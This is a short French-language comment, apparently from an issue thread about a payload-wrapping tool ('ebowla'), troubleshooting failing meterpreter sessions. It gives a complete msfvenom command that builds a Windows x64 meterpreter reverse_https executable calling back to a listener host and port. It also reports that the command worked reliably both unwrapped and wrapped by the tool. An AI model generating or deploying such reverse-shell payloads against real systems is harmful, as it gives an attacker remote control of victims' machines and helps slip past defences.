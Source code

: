 J'ai retouché les scripts build*.sh pour executer en go1.7 pour que ça marche. 
Les meterpreter bug mais d'apres mes observations ça vient du handler qui doit etre relancé a chaque nouvelle execution du payload et ne pas utiliser msfconsole -x qui semble merder aussi...

Apparemment ça viendrait plutot de la façon dont on genere meterpreter avec msfvenom, il faut utiliser : 

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=31337 -f raw -f exe > ~/Desktop/test8_https.exe
```

Utiliser 8/8fois sans erreur en brut sans ebowla et 3/3 fois avec ebowla
